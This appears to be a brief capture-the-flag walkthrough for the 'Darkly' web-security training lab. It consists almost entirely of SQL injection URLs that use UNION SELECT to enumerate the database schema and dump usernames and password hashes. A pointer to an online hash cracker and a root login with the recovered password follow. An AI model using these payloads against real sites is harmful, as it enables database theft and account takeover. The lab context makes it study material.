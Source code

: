 [OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20username,password%20FROM%20Member_Brute_Force.db_default&Submit=Submit#

[Crack Hash with crackStation](https://crackstation.net/)

http://[Darkly IP]/index.php?page=signin&username=root&password=shadow&Login=Login#